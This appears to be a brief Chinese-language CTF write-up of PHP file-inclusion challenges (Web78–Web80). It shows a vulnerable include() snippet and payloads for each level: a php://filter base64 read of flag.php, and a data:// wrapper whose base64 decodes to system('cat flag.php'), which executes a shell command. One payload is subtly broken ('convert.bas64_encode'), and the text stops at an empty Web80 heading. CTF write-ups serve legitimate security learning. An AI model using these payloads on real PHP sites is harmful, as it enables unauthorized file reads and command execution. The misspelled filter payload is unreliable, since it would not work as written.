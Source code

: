 # 文件包含

## Web78

payload

```php
?file=php://filter/convert.base64-encode/resource=flag.php
```



## Web79

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```



payload:

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs= ==> <?php system('cat flag.php');
```

```
/?file=php://filter/read=convert.bas64_encode/resource=flag.php
```

## Web80
